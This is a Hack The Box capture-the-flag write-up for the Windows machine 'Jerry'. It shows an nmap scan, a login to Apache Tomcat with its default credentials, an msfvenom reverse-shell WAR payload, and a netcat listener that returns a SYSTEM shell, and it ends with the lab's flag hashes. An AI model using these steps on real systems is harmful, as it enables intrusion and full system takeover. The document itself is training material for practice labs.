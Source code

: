 ```yaml
---
title: "HTB - Jerry"
classes: wide
tag:
- "Tomcat default credentials"
- "War deploy exploit"
- "Easy Box"
- "Track/Beginner Track"
header:
  teaser: /assets/images/htb/htb.png
ribbon: lawngreen
description: "Writeup for HTB - Jerry"
categories:
  - HTB
---
```


The given box ```Jerry``` is a Windows machine 

- [HackTheBox- Jerry](#hackthebox---Jerry)
- [Recon](#recon)
	- [Nmap Scan](#nmap-scan)
- [Enumeration](#enumeration)
	- [Tomcat Site](#tomcat-site)
	- [Finding vulnerability](#Finding-vulnerability)
	- [Default credentials](#Default-credentials)
	- [Deploy war file](#Deploy-war-file)
- [Flags](#flags)


## Recon

### Nmap Scan

`nmap` found only one open port on TCP scan.

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/track_beginnertrack/easy_jerry]
└╼[★]$ cat nmap/initial_scan.nmap
# Nmap 7.92 scan initiated Wed Sep 14 03:09:46 2022 as: nmap -Pn -sC -sV -oN nmap/initial_scan.nmap -v 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.39s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 14 03:10:48 2022 -- 1 IP address (1 host up) scanned in 62.32 seconds
```

## Enumeration

### Tomcat Site

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/easy_jerry/assets/images/1.png" >
</center>

### Finding vulnerability

So from the nmap scan got to know `Apache Tomcat/Coyote JSP engine 1.1` is running google for some exploits,

[Reference](https://www.technoscience.site/2022/01/metasploitable-2-exploit-apache.html)

And 2 vulnerabilities found in this service.

### Default credentials

	username - tomcat
	password - s3cret

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/easy_jerry/assets/images/2.png" >
</center>

### Deploy war file 

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/easy_jerry/assets/images/3.png" >
</center>

[Reference to exploit tomcat](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

Used msfvenom to create the war file and deployed in the tomcat server, but running the file `http://10.10.10.95:8080/reshell/` didn't work so used jar extract the `.jsp` file and to run the jsp file `http://10.10.10.95:8080/reshell/cidzsiqqryoneo.jsp` it worked!

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/track_beginnertrack/easy_jerry/war]
└╼[★]$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f war -o reshell.war
```

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/track_beginnertrack/easy_jerry/war]
└╼[★]$ jar -ft reshell.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
cidzsiqqryoneo.jsp
```

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/easy_jerry/assets/images/4.png" >
</center>

Got the connection successfully!

```shell

┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/track_beginnertrack/easy_jerry]
└╼[★]$ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.95] 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system
```

## Flags

```shell
type 2*

2 for the price of 1.txt


user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```
